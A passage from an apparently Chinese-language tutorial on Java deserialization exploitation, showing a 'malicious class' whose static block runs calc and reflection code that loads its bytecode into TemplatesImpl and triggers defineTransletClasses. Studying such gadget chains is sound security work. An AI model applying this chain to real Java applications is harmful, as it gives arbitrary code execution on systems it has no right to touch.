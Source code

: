 ```java
    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }
        catch(IOException e){
            e.printStackTrace();
        }
    }
}

```
然后将上述编译好的恶意类装入字节数组即可。

现在还剩下 `_tfactory` 还未处理。`_tfactory` 这里比较难，我们也过一遍，这两个过完之后，写其他的就没什么问题了。

`_tfactory` 定义如下：

```java=
private transient TransformerFactoryImpl _tfactory = null;
```
默认为null，我们可以通过反射修改一下。

 `_tfactory` 的其他定义如何。

在 `TemplatesImpl.readObject()` 方法中，找到了 `_tfactory` 的初始化定义。

![](https://i.imgur.com/yjZ1w3E.png)

也就是说TemplatesImpl在反序列化的时候会自动给给_tfactory 变量赋予一个初值，这方便了我们的漏洞利用。


那我们就通过反射将之前 poc 中的 TemplatesImpl 类变量 templates 的 `_tfactory` 属性值改为如上的默认值吧，




```java
// 1. 定义恶意字节码数组并装入 data1 中
        byte [] data0 = Files.readAllBytes(Paths.get("D:\\IDEAProject\\Reflect\\target\\classes\\security\\java\\cc3\\Calc.class"));
        byte [][] data1 = {data0};

        // 2. 实例化 TemplatesImpl，并反射修改其 _bytecodes 为 data1

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();

        Field field = c1.getDeclaredField("_bytecodes");
        field.setAccessible(true);

        field.set(templates,data1);

        Field field1 = c1.getDeclaredField("_tfactory");
        field1.setAccessible(true);
        field1.set(templates,new TransformerFactoryImpl());


        // 3. 反射调用 defineTransletClasses

        Method method = c1.getDeclaredMethod("defineTransletClasses");
        method.setAccessible(true);
        method.invoke(templates,null);
```
